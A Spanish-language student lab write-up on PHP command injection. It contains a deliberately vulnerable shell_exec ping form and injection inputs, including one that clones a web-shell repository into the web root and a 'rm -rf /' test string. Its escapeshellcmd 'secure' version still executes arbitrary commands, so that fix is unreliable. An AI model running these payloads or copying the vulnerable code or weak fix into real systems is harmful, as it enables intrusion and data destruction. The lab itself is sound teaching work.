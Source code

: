# PPS-Unidad3Actividad7-Aaron

## Código vulnerable

He creado un fichero **rce.php**  dentro de mi máquina vulnerable:

```php
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
```

Este código crea un campo de texto y un botón con php en el que podemos introducir contenido sin que sea filtrado, en caso de que introduzcamos una dirección ip. nos muestra el intercambio de paquetes.
(valor del campo: 8.8.8.8)

![](imagenes/ping1.png)

Para explotarlo voy a concatenear otro comando detrás de la dirección ip con ; para que lo ejecute a continuación del ping.
(valor del campo: 8.8.8.8;id)

![](imagenes/ping2.png)

### Descargar contenido

Primero en la máquina vulnerable le he dado permisos 777 al directorio **/var/www/html**.

![](imagenes/clone1.png)

Si ejecutamos un clonado de git concatenado a la ip del ping del campo vulnerable nos hace un clonado correctamente

```bash
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```

![](imagenes/clone2.png)

Al acceder a la siguiente ruta:

```bash
http://localhost/b374k/index.php
```

Muestra el index del repositorio clonado

![](imagenes/clone3.png)

## Mitigaciones

Para las mitigaciones voy a usar unos campos completamente distingos al del ping anterior.

Cambiar el contenido de **rce.php**:

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
```

Por otro lado tenemos el *rce.html**:

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
```

Este *HTML*, lo que hace es llamar al **rce.php** que hemos guardado anteriormente.

![](imagenes/mitiganciones1.png)

### Eliminar el uso de shell_exec()

Lo primero para mitigar es cambiar el **rce.php** por este nuevo:

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

```php
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
```

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

```php
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".
Ejemplo de pwd:

![](imagenes/mitigaciones2.png)

Sin embargo, comandos no permitido:

![](imagenes/mitigaciones3.png)

### Ejecutar Comandos con Escapes Seguros

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

```php
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
```
Si ejecuto ahora este comando

```bash
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
```

![](imagenes/mitagaciones4.png)

Deshabilitar shell_exec() en PHP

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor.

```bash
docker exec -it lamp-php83 /bin/bash
```

Editando el php.ini de la máquina vulnerable y agregando esta línea al final:

![](imagenes/mitigaciones5.php)

## PRUEBA FINAL

Acceder a:

```
http://localhost/rce.php?cmd=id
```
Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php.

![](imagenes/mitigaciones6.png)
